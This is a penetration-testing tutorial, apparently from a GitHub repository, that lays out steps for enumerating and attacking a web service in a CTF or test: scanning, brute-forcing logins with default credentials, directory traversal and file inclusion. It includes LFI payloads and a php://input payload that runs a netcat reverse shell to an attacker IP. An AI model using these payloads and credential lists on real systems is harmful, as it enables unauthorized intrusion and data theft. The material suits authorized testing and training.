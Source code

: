 # Web Service Enumeration Flow Chart
Let's draw out recommended steps to take when we find a web service on a target system during CTF, or penetration testing. This can be found via NMAP scans or otherwise. I have anothewr file with tool-specific details [listed here](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/HTTP/http-enumeration.md) that I recommend reading as well.
### Edit the /etc/hosts File
Setting the hostname with the IP address will allow you to make HTTP requests with the hostname to the target system. This is used in enumerating any virtual hosts / domains that the target system may be hosting. A single IP address can hosts many web sites by handliong the incoming HTTP request information and mapping the hostname to an area on the file system.

Edit the /etc/hosts file as so,
```
(TARGET IP ADDRESS)      (TARGET HOSTNAME)
E.g.:
10.10.10.10     somehost.somedomain
10.10.10.10     subdomain.somehost.somedomain
```
## 1. Browse to the Web App
First, go to the service using a web browser and view it with eyeballs/or if impaired using a text browser or `curl`. This will often present clues to frameworks or other services that may be employed by the target system. Remember, that during the enumertaion phase of any service, **leave no stone unturned.**
### Robots.txt
Often this file will contain directories, files or other resources that the author does not intend to be public.
### View Page Sources
There are a few different ways to inspect a web application / web page.
1. Hit CTRL+U and analyze the source code of then entire rendered page.
2. Right click and inspect elements
This can often lead to clues as to the development process, leak info in comments, or, very rarely, leak credentials.
### Inspect all Images
Make sure to download and inspect all images from the site, especially if this is a CTF exercise. Use tools such as,
* binwalk
* steghide
* stegcracker
* strings
#### Reverse Google Image Search
Also, for more clues on what type of framework, web service, etc, is running on the target, it may benefit to do a simple reverse Google Image Search. Do this on any
* icons - favicon.ico
* thumbnails
* logos
* splash images
### Developer Tools
Hit F12 to enter the developer tools.
1. Look at the resources that are being accessed by the web site/web app.
2. Refresh the page and watch the network tab to view any extra, potentially unrendered, content.
### Look for Login Pages
If the web application has a login page. This can often lead to a foothold during the penetration test. Especially if we can find an administrative account.
#### SQL Injection Attempt
Tryin a few simple SQL Injection attempts on the page.
1. [Common SQL Injection techniques for login pages](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/sql-injection-login-page.md)
2. Commonly used credentials
    1. admin:admin
    2. admin:
    3. admin:default
    4. admin:password
    5. administrator:administrator
    6. administrator:default
    7. administrator:
 #### Brute Force Attacks
 Next, we can try a brute force attack on the login page.
 1. Make sure that you try your best to enumerate a username. If none found, test default usernames such as "admin", "administrator", etc.
 2. Brute force attacks are lengthy. Run them in parallel to your work.
 3. Brute force attacks are lengthy. Try your best to enumerate words from the web aplpication to use as ammunition in the BF attack. Follow the [Generate Wordlists](#Generate_Wordlists) section below.
 ## 2. Scan the Web App
 Next, we will use a few tools to simply scan the web application.
 ### Nikto
 Nikto will provide information about the web service and web application. This scan may also provide use with very obvious web vulnerabilities for both a well.
 ```
 root@attacker-system:~# perl /infosec/www/nikto/program/nikto.pl -h (TARGET URL)
 ```
 ### DIRB
 A great way to enumerate files on the web server is to using a scanning tool such as DIRB. This tool should be used to scan for all suspected web application programming language types. E.g.: if the server is Apache, try PHP extensions for all file names in the DIRB common.txt wordlist.
 ```
 root@attacker-system:~# dirb http://(TARGET IP ADDRESS) -X .php
 ```
 1. Try many different wordlists besides the default `common.txt` wordlists. I have provided some here in this Grimoire, but you should also test some from the [SecLists/Discovery/Web-Content](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content) area as well.
 2. Also, try common used extensions and web service extensions. You also want to search for development archives or backups. 
    1. .config
    2. .cfc
    3. .jar
    4. .txt
    5. .zip
 3. Search for commonly used framework files, such as license.txt, readme.html, etc.
 ## 3. Generate Wordlists
 Using tools such as CeWL against the target web application and it's content can provide data that we can use to target credentials and brute-force style enumeration techniques.
```
root@attacker-system:~# ruby cew.rb http://(TARGET IP ADDRESS)/
CeWL 5.2 (Some Chaos) Robin Wood (robin@digi.ninja) (https://digi.ninja)
PwnLab
Intranet
Image
Hosting
... (SNIPPED) ...
```
These words work great against attempting a password brute force attack on the target server.
## 4. Check for Service Vulnerabilties
You can find the version of the web application server using 404 pages, HTTP headers, etc. For instance, we can see the version in the VulnHUB.com PwnLab instance by hitting http://(TARGET IP ADDRESS)/lol and view the following,
```
Apache/2.4.10 (Debian) Server at (TARGET IP ADDRESS) Port 80
```
We can also see this version in the HTTP response headers as,
```
Server: Apache/2.4.10 (Debian)
```
By right clicking in our browser on the site, choosing inspect element, clicking the Network tab and refreshing the page. Then select the index file in the bottom panel and view the headers on the right side of the developer tools box.

Use this version number to search exploit resources, such as [exploit-db.com](exploit-db.com) for known vulnerabilties.
## 5. OWASP Top 10 Project
Next, we want to attempt any of the (OWASP top 10)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project] web vulnerabilties for each input handler found on the web application.
1. **Directory Traversal** - [DotDotPwn](https://github.com/wireghoul/dotdotpwn) to attempt directory traversal
```
root@attacker-system:~# dotdotpwn -h (TARGET IP ADDRESS) -m http -f config.php
```
2. **SQL Injection** - [SQLMap](http://sqlmap.org/) can be used to test advanced SQL Injection
3. **File Inclusion and Command Injection** - Fuzz Web GET and POST parameters. You can also use **BurpSuite CE** in the *Intruder* tab to attempt an LFi Attack on the target system's HTTP requests parameters.
   1. `?file=foo.txt` may be vulnerable to local file includion (LFi)
   2. `?page=foo` may be vulnerable to local file inclusion (LFi)
   3. `?page=php://filter/convert.base64-encode/resource=index` - this payload will base64 encode the index.php file and return it in the DOM.
   4. `?page=php://input` with `<? system('nc -e /bin/bash (ATTACKER IP ADDRESS) (ATTACKER PORT)'); ?>` as POST data - command injection technique.
   5. `?url=http://someurl` may be vulnerable to remote file inclusion (RFi)
4. **Session Management** - Edit and fuzz cookies as described in [my cheat sheet here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/cookie-fuzzing.md)
## 6. Burp Suite CE
Use the BurpSuite Community Edition to analyze all requests from the server. 
1. Turn on the proxy for Intercept in the BurpSuite CE window
2. Set the proxy in your web browser.
3. Make an HTTP request to multiple resources in the web application and analyze the results for more clues.
